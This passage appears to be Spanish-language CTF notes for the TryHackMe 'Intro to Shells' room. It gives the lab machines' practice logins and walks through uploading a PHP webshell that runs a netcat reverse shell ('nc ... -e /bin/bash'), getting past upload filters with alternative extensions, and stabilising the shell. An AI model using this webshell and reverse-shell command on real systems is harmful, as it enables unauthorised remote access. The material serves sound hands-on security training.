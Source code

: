 ### https://tryhackme.com/room/introtoshells
---
## Linux Practice Box

The box attached to this task is an Ubuntu server with a file upload page running on a webserver. This should be used to practice shell uploads on Linux systems. Equally, both socat and netcat are installed on this machine, so please feel free to log in via SSH on port 22 to practice with those directly. The credentials for logging in are:

    Username: shell
    Password: TryH4ckM3!

## Windows Practice Box

This task contains a Windows 2019 Server box running a XAMPP webserver. This can be used to practice shell uploads on Windows. Again, both Socat and Netcat are installed, so feel free to log in over RDP or WinRM to practice with these. The credentials are:

    Username: Administrator
    Password: TryH4ckM3!

To login using RDP:

    xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:'TryH4ckM3!'
---

## Answer the questions below
---
**PREGUNTA**

***Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.***
¿Cómo subir y usar una webshell que ejecute `nc` para obtener una reverse shell?

**RESPUESTA**

1. Listener: `nc -lvnp <PUERTO>`
2. Webshell PHP:

   ```php
   <?php system("nc <TU-IP> <PUERTO> -e /bin/bash"); ?>
   ```
3. Subir archivo al servidor (usar extensiones alternativas si hay filtro).
4. Ejecutar accediendo a la URL.
5. Estabilizar shell:

   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```

   Luego `stty raw -echo; fg` y `reset`.
---
---
**PREGUNTA**
